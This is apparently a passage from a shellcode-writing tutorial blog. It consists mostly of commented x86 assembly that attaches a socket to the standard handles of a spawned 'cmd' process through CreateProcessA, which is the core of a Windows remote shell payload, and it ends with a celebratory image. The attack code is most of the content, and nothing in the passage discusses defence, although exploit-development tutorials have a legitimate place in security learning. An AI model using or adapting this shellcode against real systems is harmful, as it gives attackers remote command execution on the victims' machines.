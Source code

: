 ~~~
	push edi               ; our socket becomes the shells hStdError
	push edi               ; our socket becomes the shells hStdOutput
	push edi               ; our socket becomes the shells hStdInput
	xor esi, esi           ; Clear ESI for all the NULL's we need to push
	push byte 0x12         ; We want to place (18 * 4) = 72 null bytes onto the stack
	pop ecx                ; Set ECX for the loop

push_loop:
	push esi               ; push a null dword
	loop push_loop         ; keep looping untill we have pushed enough nulls
	mov word [esp + 0x3C], 0x0101 ; Set the STARTUPINFO Structure's dwFlags to STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
	mov byte [esp + 0x10], 0x44
	lea eax, [esp + 0x10]  ; Set EAX as a pointer to our STARTUPINFO Structure

  	;perform the call to CreateProcessA
	push esp               ; Push the pointer to the PROCESS_INFORMATION Structure 
	push eax               ; Push the pointer to the STARTUPINFO Structure
	push esi               ; The lpCurrentDirectory is NULL so the new process will have the same current directory as its parent
	push esi               ; The lpEnvironment is NULL so the new process will have the same enviroment as its parent
	push esi               ; We dont specify any dwCreationFlags 
	inc esi                ; Increment ESI to be one
	push esi               ; Set bInheritHandles to TRUE in order to inheritable all possible handle from the parent
	dec esi                ; Decrement ESI back down to zero
	push esi               ; Set lpThreadAttributes to NULL
	push esi               ; Set lpProcessAttributes to NULL
	push ebx               ; Set the lpCommandLine to point to "cmd",0
	push esi               ; Set lpApplicationName to NULL as we are using the command line param instead

	mov ebx, 0x7c80236b    ; CreateProcessA
	call ebx
~~~

![3-WIN]({{ "/assets/media/manualshellcode/shellcode_memewin.jpg" | absolute_url }})
